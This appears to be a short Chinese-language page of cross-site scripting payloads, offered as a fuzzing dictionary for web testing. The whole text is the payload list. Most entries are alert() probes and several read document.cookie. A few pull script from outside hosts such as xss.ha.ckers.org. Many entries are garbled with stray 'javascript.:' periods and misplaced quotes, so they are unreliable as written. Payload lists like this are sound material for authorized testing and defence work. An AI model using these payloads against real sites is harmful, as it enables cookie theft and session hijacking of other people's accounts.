 ```
<b onmouseover=alert('XSS')>Click Me!</b>
<body onload="alert('XSS')">
<img src="http://test.cyberspacekittens.com" onerror=alert(document.cookie);>
```



以下可以用来充当fuzz字典。

```html
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>

<s&#99;ript>alert('XSS')</script>
<img src="javas&#99;ript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">

<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>
<IMG SRC="jav&#x09;ascript.:alert('XSS');">
<IMG SRC="jav&#x0A;ascript.:alert('XSS');">

<IMG SRC="jav&#x0D;ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
```